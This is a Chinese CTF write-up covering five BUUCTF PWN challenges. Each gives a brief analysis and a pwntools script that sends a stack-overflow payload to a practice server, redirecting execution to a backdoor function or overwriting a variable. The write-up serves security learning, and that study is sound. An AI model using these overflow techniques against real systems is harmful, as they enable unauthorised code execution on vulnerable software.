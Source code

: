 # 前言

开始刷一刷Buuctf的PWN题，一遍学一遍刷题了。

其实主要是堆学的顶不住了。。。一个下午才搞懂一个知识点，太tm的难了。

# test_your_nc

```python
from pwn import *
from LibcSearcher import *
context(log_level="debug",os="linux")
p = remote('node4.buuoj.cn',27517)
p.interactive()

```

# rip

坑。。。。

一个gets的栈溢出，后门函数fun()在`0x401186`，本来直接编写EXP就能打，但是似乎64位的程序有堆栈平衡的问题，加一个ret指令来16字节对齐：

![image-20220120203321641](BUUCTF-PWN-Writeup-1-5.assets/image-20220120203321641.png)

```python
from pwn import *
from LibcSearcher import *
context(log_level="debug",os="linux")
p = remote('node4.buuoj.cn',25906)
payload = b'a'*23+p64(0x401016)+p64(0x401186)
p.sendline(payload)
p.interactive()
```



# warmup_csaw_2016

IDA反汇编：

![image-20220120205627200](BUUCTF-PWN-Writeup-1-5.assets/image-20220120205627200.png)

sub_40060D是个后门函数，会把地址告诉我们。

然后就是栈溢出了，去算偏移然后构造payload就行：

```python
from pwn import *
from LibcSearcher import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
p = remote('node4.buuoj.cn',29643)
p.recvuntil('WOW:')
backdoor_addr = int(p.recvuntil('\n',drop=True),16)
payload = b'a'*0x48+p64(backdoor_addr)

p.sendline(payload)
#p = gdb.debug(["./vuln",payload],"break validate_passwd")
p.interactive()

```

# ciscn_2019_n_1

![image-20220120212634971](BUUCTF-PWN-Writeup-1-5.assets/image-20220120212634971.png)

v1存在栈溢出，且在v2上面，可以把v2给覆盖掉。

至于小数在内存中是怎么存储的，单精度是这样的：

![img](BUUCTF-PWN-Writeup-1-5.assets/Center.png)

直接网上在线工具转十六进制：

![image-20220120212847979](BUUCTF-PWN-Writeup-1-5.assets/image-20220120212847979.png)

再算一下偏移后打过去即可：

```python
from pwn import *
from LibcSearcher import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
p = remote('node4.buuoj.cn',27574)
#p = process('./buu/warmup_csaw_2016')
#p = gdb.debug(["./buu/warmup_csaw_2016"],"break func")
payload = b'a'*0x2c+p64(0x41348000)
p.sendline(payload)
#p = gdb.debug(["./vuln",payload],"break validate_passwd")
p.interactive()

```

# pwn1_sctf_2016

有个vuln函数和一个get_flag的后门函数。

vuln函数没看太懂。。。

```c++
int vuln()
{
  const char *v0; // eax
  char s[32]; // [esp+1Ch] [ebp-3Ch] BYREF
  char v3[4]; // [esp+3Ch] [ebp-1Ch] BYREF
  char v4[7]; // [esp+40h] [ebp-18h] BYREF
  char v5; // [esp+47h] [ebp-11h] BYREF
  char v6[7]; // [esp+48h] [ebp-10h] BYREF
  char v7[5]; // [esp+4Fh] [ebp-9h] BYREF

  printf("Tell me something about yourself: ");
  fgets(s, 32, edata);
  std::string::operator=(&input, s);
  std::allocator<char>::allocator(&v5);
  std::string::string(v4, "you", &v5);
  std::allocator<char>::allocator(v7);
  std::string::string(v6, "I", v7);
  replace((std::string *)v3);
  std::string::operator=(&input, v3, v6, v4);
  std::string::~string(v3);
  std::string::~string(v6);
  std::allocator<char>::~allocator(v7);
  std::string::~string(v4);
  std::allocator<char>::~allocator(&v5);
  v0 = (const char *)std::string::c_str((std::string *)&input);
  strcpy(s, v0);
  return printf("So, %s\n", s);
}
```

但是大致不细看测也能测出来是吧I替换成you，所以和ebp有0x3C的偏移，拿20个I来替换即可。

具体的逻辑明天在看了，今天看的有点累了：

```python
from pwn import *
from LibcSearcher import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
p = remote('node4.buuoj.cn',27331)
#p = process('./buu/warmup_csaw_2016')
#p = gdb.debug(["./buu/warmup_csaw_2016"],"break func")
payload = b'I'*20+b'a'*4+p64(0x8048F0D)
p.sendline(payload)
#p = gdb.debug(["./vuln",payload],"break validate_passwd")
p.interactive()

```

